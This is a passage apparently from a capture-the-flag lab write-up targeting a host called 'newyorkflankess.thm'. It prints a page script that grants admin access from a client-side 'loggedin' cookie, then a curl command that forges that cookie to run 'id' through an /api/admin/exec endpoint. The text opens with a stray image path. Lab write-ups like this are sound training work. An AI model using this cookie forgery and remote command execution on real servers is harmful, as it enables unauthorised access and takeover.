 ```bash
</div>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        // Check if the "isLoggedIn" cookie exists
        const isLoggedIn = document.cookie.includes('loggedin');

        // Get the admin login button element
        const adminLoginBtn = document.querySelector('.admin-login-btn');

        // If the "isLoggedIn" cookie exists, change the button text to "FINDME"
        if (isLoggedIn) {
            adminLoginBtn.textContent = 'DEBUG';
        }

        // Add event listener to the admin login button
        adminLoginBtn.addEventListener('click', function() {
            // If the user is not logged in, redirect to login.html
            if (!isLoggedIn) {
                window.location.href = 'login.html';
            } else {
                window.location.href = 'exec.html'
            }
        });
    });
</script>
</body>
</html>
```

![image.png](image%201.png)

`curl --path-as-is -isk -X $'GET' -H $'Host: newyorkflankess.thm:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -b $'session=52fdfa7f5b6c303a9b77d35b8a9f7d206f1602ed5b1f4b021ea2d8991d23e828; loggedin=true' $'http://newyorkflankess.thm:8080/api/admin/exec?cmd=id'`
